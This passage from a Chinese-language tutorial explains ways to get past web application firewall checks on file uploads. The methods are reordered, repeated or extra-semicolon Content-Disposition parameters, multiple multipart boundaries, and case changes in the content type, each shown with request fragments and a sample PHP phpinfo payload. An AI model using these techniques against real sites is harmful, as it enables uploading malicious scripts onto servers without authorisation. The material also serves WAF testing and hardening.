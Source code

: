  

规定Content-Disposition必须在最前面，所以只能交换name和filename的顺序。有的WAF可能会匹配name在前面，filename在后面，所以下面姿势会导致Bypass。

Content-Disposition: form-data; filename="xx.php"; name=file_x

 

 

**4.7 多个boundary**

 

最后上传的文件是test.php而非test.txt，但是取的文件名只取了第一个就会被Bypass。

------WebKitFormBoundaryj1oRYFW91eaj8Ex2
 Content-Disposition: form-data; name="file_x"; filename="test.txt"
 Content-Type: text/javascript

 <?php phpinfo(); ?>
 ------WebKitFormBoundaryj1oRYFW91eaj8Ex2
 Content-Disposition: form-data; name="file_x"; filename="test.php"
 Content-Type: text/javascript

 <?php phpinfo(); ?>
 ------WebKitFormBoundaryj1oRYFW91eaj8Ex2
 Content-Disposition: form-data; name="submit_x"

 upload
 ------WebKitFormBoundaryj1oRYFW91eaj8Ex2--

 

 

**4.8 多个filename**

 

最终上传成功的文件名是test.php。但是由于解析文件名时，会解析到第一个。正则默认都会匹配到第一个。

Content-Disposition: form-data; name="file_x"; filename="test.txt"; filename="test.php"

 

 

**4.9 多个分号**

 

文件解析时，可能解析不到文件名，导致绕过。

Content-Disposition: form-data; name="file_x";;; filename="test.php"

 

 

**4.10 multipart/form-DATA**

 

这种绕过应该很少，大多数都会忽略大小写。php和java都支持。

Content-Type: multipart/form-DATA

 

 
